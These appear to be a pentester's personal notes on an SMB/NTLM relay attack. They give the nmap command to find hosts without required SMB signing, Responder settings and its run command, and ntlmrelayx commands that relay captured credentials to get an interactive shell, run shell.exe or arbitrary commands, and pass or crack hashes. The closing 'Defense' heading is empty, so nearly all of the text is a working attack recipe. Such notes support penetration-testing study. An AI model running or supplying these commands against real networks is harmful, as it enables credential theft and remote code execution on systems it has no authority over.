

Requirements:
1. SMB Signing must be disable on the target (disable by default)
nmap --script=smb2-security-mode -p445 10.10.10.0/24
--> enabled but not required
--> disable
save the target ip to target.txt
2. Relayed user credentials must be admin on machine
3. Turn on nework discovery and file sharing
[attacker]
1. Responder.conf
turn off SMB & HTTP

python responder.py -l tun0 -rdw
2. ntlmrelayx.py
save the target ip to target.txt
python ntlmrelayx.py -tf target.txt -smb2support
interactive shell
python ntlmrelayx.py -tf target.txt -smb2support -i
nc 127.0.0.1 <port from the report ntlmrelayx>
execute shell
-e shell.exe
execute command
-c "command"
[victim]
3. File Explorer or web browser
file explorer
\\<kali ip>
web browser
\<kali ip>
do pass the hash or crack the hash
# Defense